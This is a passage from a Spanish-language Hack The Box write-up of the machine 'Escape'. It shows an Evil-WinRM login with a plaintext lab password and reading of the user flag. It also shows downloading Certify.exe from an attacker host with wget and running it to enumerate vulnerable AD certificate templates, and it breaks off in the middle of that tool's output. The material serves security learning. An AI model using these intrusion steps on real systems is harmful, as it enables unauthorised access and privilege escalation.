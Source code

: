 

Nos conectamos.
```bash
❯ evil-winrm -i 10.10.11.202 -u Ryan.Cooper -p NuclearMosquito3

Evil-WinRM shell v3.4

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> 
```
Procedemos a leer la primera flag.
```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> type ../Desktop/user.txt
12****************************a6
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> 
```
![Hacker ]({{ 'assets/img/posts//htb/escape/gato.gif' | relative_url }}){: .center-image }
_Pwned_

## Escalada de Privilegios
Importamos y ejecutamos `Certify.exe` para descubrir plantillas de certificados vulnerables. Todo lo descargaremos de este repositorio de [GitHub](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries).
```bash
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> wget http://10.10.14.15/Certify.exe -o Certify.exe
*Evil-WinRM* PS C:\Users\Ryan.Cooper\Documents> .\Certify.exe find /vulnerable /currentuser

   _____          _   _  __
  / ____|        | | (_)/ _|
 | |     ___ _ __| |_ _| |_ _   _
 | |    / _ \ '__| __| |  _| | | |
 | |___|  __/ |  | |_| | | | |_| |
  \_____\___|_|   \__|_|_|  \__, |
                             __/ |
                            |___./
  v1.0.0

[*] Action: Find certificate templates
[*] Using current user's unrolled group SIDs for vulnerability checks.
[*] Using the search base 'CN=Configuration,DC=sequel,DC=htb'

[*] Listing info about the Enterprise CA 'sequel-DC-CA'

    Enterprise CA Name            : sequel-DC-CA
    DNS Hostname                  : dc.sequel.htb
    FullName                      : dc.sequel.htb\sequel-DC-CA
    Flags                         : SUPPORTS_NT_AUTHENTICATION, CA_SERVERTYPE_ADVANCED
    Cert SubjectName              : CN=sequel-DC-CA, DC=sequel, DC=htb
    Cert Thumbprint               : A263EA89CAFE503BB33513E359747FD262F91A56
    Cert Serial                   : 1EF2FA9A7E6EADAD4F5382F4CE283101
    Cert Start Date               : 11/18/2022 12:58:46 PM
    Cert End Date                 : 11/18/2121 1:08:46 PM
    Cert Chain                    : CN=sequel-DC-CA,DC=sequel,DC=htb
    UserSpecifiedSAN              : Disabled
    CA Permissions                :
      Owner: BUILTIN\Administrators        S-1-5-32-544
```